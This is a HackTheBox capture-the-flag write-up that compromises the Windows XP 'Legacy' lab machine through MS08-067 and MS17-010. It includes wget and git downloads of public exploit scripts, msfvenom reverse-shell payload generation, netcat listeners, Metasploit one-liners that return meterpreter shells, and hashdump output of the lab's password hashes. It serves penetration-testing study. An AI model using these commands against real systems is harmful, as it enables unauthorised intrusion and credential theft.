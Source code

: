 ```yaml
---
title: Legacy Writeup
date: 2021-12-27
categories: [Writeup, HackTheBox]
tags: hackthebox, OSCP, WriteUp, Windows, windowsxp, eternalblue, MS08-067, MS17-010, TJNULLs List
image:
  src: /assets/Images-01-Legacy/Legacy-infocard.png
  width: 497px    # 697 in pixels
  height: 317px   # 517 in pixels
  alt: image alternative text
---
```


> In this writeup I have pwned Legacy from hackthebox in all possible ways using manual exploits and metasploit.


### Enumeration
**`rustscan`**
```
rustscan --accessible -a 10.129.178.214 -- -Pn -p-
```
![](/assets/Images-01-Legacy/2021-12-29-13-18-11.png)
_rustscan results_

#### nmap
```
sudo nmap -Pn -A -O -p 139,445 10.129.178.214 | tee nmap.log
```
![](/assets/Images-01-Legacy/2021-12-29-13-39-30.png)
_nmap results_

```
sudo nmap -Pn --script=smb-vuln* -p 139,445 10.129.178.214 | tee nmap-vulns.log
```
![](/assets/Images-01-Legacy/2021-12-29-13-53-30.png)
_nmap vulnerablity scan results_

Target running 
- OS : Windows XP SP2 or Later.
- SMB Service with disabled message signing.

This can lead to exploitation using eternal blue exploit on outdated OS with vulnerable state of service.

nmap vulnerablity script scan gave confirmation target is vulnerable to 
- CVE-2008-4250 : Microsoft Windows system vulnerable to remote code execution (MS08-067)
- CVE-2017-0143 : Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

#### smbclient

```
smbclient -NL 10.129.178.214
smbmap -H 10.129.178.214
```
**`smbmap`** and **`smbclient`** confirmed no shares are accessible.

---

### Exploitation

#### MS08-067

For exploiting the target using MS08-067 we can use the following exploit from github. [MS08-067](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py)

```
wget "https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py"
```

This exploit have dependencies of python library `pycryptodomex / pycryptodome` which was previously known as `pycrypto`.

Installing `impacket` in python virtual environment will fulfill the minimum requirement to execute exploit.

```
virtualenv -p /usr/bin/python venv
source venv/bin/activate

git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
pip install .

# cd back to exploit location.
```
![](/assets/Images-01-Legacy/2021-12-29-14-19-08.png)

Now we can test if exploit is usable using simple run.
```
python ms08-067.py
```
This will give usage example to run this exploit.
![](/assets/Images-01-Legacy/2021-12-29-14-20-10.png)

This exploit also requires shellcode to get a reverse shell. 
We can generate shell code using following
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```
![](/assets/Images-01-Legacy/2021-12-29-14-22-21.png)

We have to copy this generated shellcode and put it in exploit at line 53.

We have to remove the existing shell code and put out shellcode in `shellcode()` function.

![](/assets/Images-01-Legacy/2021-12-29-14-24-04.png)

Now we are ready to execute exploit script using the following command.

```
rlwrap nc -lvnp 1337 # setting up listener

python ms08-067.py 10.129.178.214 6 445
```

> Note : We are selecting 6 because target is running Windows XP SP3 which was found in nmap enumeration. In case of other language of XP or other varient of OS. Enumeration and hit n trial will be required.

**And finally we get a shell.**
![](/assets/Images-01-Legacy/2021-12-29-14-30-47.png)

---

#### MS17-010

For exploiting the target using MS17-010 we can use the following exploit from github. [MS17-010](https://github.com/helviojunior/MS17-010)

```
git clone https://github.com/helviojunior/MS17-010.git
cd MS17-010/
python checker.py 10.129.178.214
```
The `checker.py` script also confirms this is vulnerable to MS17-010.

![](/assets/Images-01-Legacy/2021-12-29-14-37-03.png)

This exploit requires malicious executable to get a reverse shell. We will create it using following commands in the same location of exploit.
```
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > eternalblue.exe
```

And run the exploit after setting up ncat listener.

```
rlwrap nc -lvnp 1337

# python send_and_execute.py TARGET_IP eternalblue.exe
python send_and_execute.py 10.129.178.214 eternalblue.exe
```

**And finally we get a shell.**
![](/assets/Images-01-Legacy/2021-12-29-14-44-43.png)

---

#### Metasploit | MS17-010

With below one liner we can exploit target with Metasploit MS17-010 module and get meterpreter shell.
```
msfconsole -q -x "use exploit/windows/smb/ms17_010_psexec; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; set RHOSTS 10.129.178.214; run;"
```
![](/assets/Images-01-Legacy/2021-12-29-15-04-07.png)


#### Metasploit | MS08-067

```
msfconsole -q -x "use exploit/windows/smb/ms08_067_netapi; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 5555; set RHOSTS 10.129.178.214; run;"
```
![](/assets/Images-01-Legacy/2021-12-29-15-07-49.png)

---

### Post Exploitation
This system didn't had whoami to check the privileges.

#### nc TCP Reverse Shell 

Using SMB Server and executing we got to know we have highest privilege in system.

```
# in attacker machine
sudo smbserver.py a /usr/share/windows-resources/binaries/ 

# in target machine
\\10.10.17.81\a\whoami.exe
```

![](/assets/Images-01-Legacy/2021-12-29-15-26-32.png)

#### Meterpreter

Using `getuid` we got current user. 
And using `hashdump` following hashes were collected.
```hash
Administrator:500:b47234f31e261b47587db580d0d5f393:b1e8bd81ee9a6679befb976c0b9b6827:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:0ca071c2a387b648559a926bfe39f8d7:332e3bd65dbe0af563383faff76c6dc5:::
john:1003:dc6e5a1d0d4929c2969213afe9351474:54ee9a60735ab539438797574a9487ad:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:f2b8398cafc7174be746a74a3a7a3823:::
```

![](/assets/Images-01-Legacy/2021-12-29-15-33-30.png)

---

### Recommendation

SMB was enabled on outdated un-supported Winodws XP and SMB message signing was disabled. And running with privileges of Administrator.

> Update to latest supported version of Windows. 
> Advise not to run SMB service with disabled message signing as Administrator.

---

### Key Learning
In this pentest, with easiest enumeration we got to know target is vulnerable to eternal blue. And there are a lot of exploits available for this on github and other resources.

Going forward keeping a fork of working exploit with instructions to run it will help saving a a lot time in pentest period.

Outdated exploits like Eternal blue have dependency issues because of older version of python libraries. 

To save trouble it would be good idea to get libraries in virtual environment and run the exploit.

---